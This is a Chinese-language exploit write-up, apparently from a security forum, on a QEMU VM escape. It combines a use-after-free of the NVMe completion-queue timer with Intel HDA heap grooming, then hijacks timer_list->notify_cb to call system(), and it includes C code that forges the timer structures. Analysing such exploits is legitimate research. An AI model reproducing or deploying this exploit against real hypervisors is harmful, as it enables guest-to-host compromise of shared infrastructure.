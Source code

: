 ‍

具体的利用思路：

1. 利用信息泄露获取到 Guest RAM 在 QEMU 进程的地址 `host_guest_ram_address`​ 、system@plt 地址
2. 在 `host_guest_ram_address`​ 里面找一个地址 `host_guest_cq_timerlist_buf_address`​，在里面伪造 timer\_list
3. 通过写 hda IN1-IN3 CTL 的 mmio，分配 3 个 0x30 的块，这样 tcache就会由三个空位，后续释放 cq-&gt;timer 就会进入 tcache.
    
    
    - 调试过程中发现 tcache 以满，所以释放的 timer 会进入 smallbin ，而 intel\_hda\_parse\_bdl 会从 tcache 里面取内存块，将无法占位.
4. 触发 nvme\_ctrl\_rest 释放 cq-&gt;timer
5. 利用 intel\_hda\_parse\_bdl 占位 timer，并劫持 timer&gt;timer\_list = `host_guest_cq_timerlist_buf_address`​ .
6. 等待 timer\_list-&gt;notify\_cb(timer\_list-&gt;notify\_opaque, timer\_list-&gt;clock-&gt;type) 执行.

篡改后的 timer 的结构如下

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-d53af7860971619e6e170149bfd2537b12586fc7.png)

exp 中伪造 cq\_timerlist\_buf 的代码如下：

```c
/* Construct fake timer and timerlist */
uint64_t construct_timer(uint64_t host_guest_ram_address)
{
    QEMUTimer *cq_timer_buf = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0);
    mlock(cq_timer_buf, PAGE_SIZE);
    memset(cq_timer_buf, 0, PAGE_SIZE);
    void *cq_timer_buf_phys_addr = virt_to_phys(cq_timer_buf);

    QEMUTimerList *cq_timerlist_buf = mmap(NULL, PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_SHARED, -1, 0);
    mlock(cq_timerlist_buf, PAGE_SIZE);
    memset(cq_timerlist_buf, 0, PAGE_SIZE);
    void *cq_timerlist_buf_phys_addr = virt_to_phys(cq_timerlist_buf);

    uint64_t cq_timerlist_buf_ram_offset = (uint64_t)cq_timerlist_buf_phys_addr; /* will be - 0x100000000 + 0x80000000 with bigger RAM */
    uint64_t host_guest_cq_timerlist_buf_address = host_guest_ram_address + cq_timerlist_buf_ram_offset;
    cq_timer_buf->timer_list = (QEMUTimerList *)host_guest_cq_timerlist_buf_address;
    cq_timerlist_buf->active_timers_lock.initialized = true;
    cq_timerlist_buf->active_timers = (QEMUTimer *)NULL;

    cq_timerlist_buf->notify_cb = (QEMUTimerListNotifyCB *)(elf_base_address + ELF_SYSTEM_PLT_OFFSET);
    void *command_guest_phys_address = virt_to_phys(command);
    uint64_t command_guest_ram_offset = (uint64_t)command_guest_phys_address;
    cq_timerlist_buf->notify_opaque = (void *)(command_guest_ram_offset + host_guest_ram_address);
    cq_timerlist_buf->clock = (QEMUClock *)((uint8_t *)host_guest_cq_timerlist_buf_address + PAGE_SIZE / 2); /* clock->type, second parameter, all zeros */

    return (uint64_t)cq_timer_buf_phys_addr;
}
```
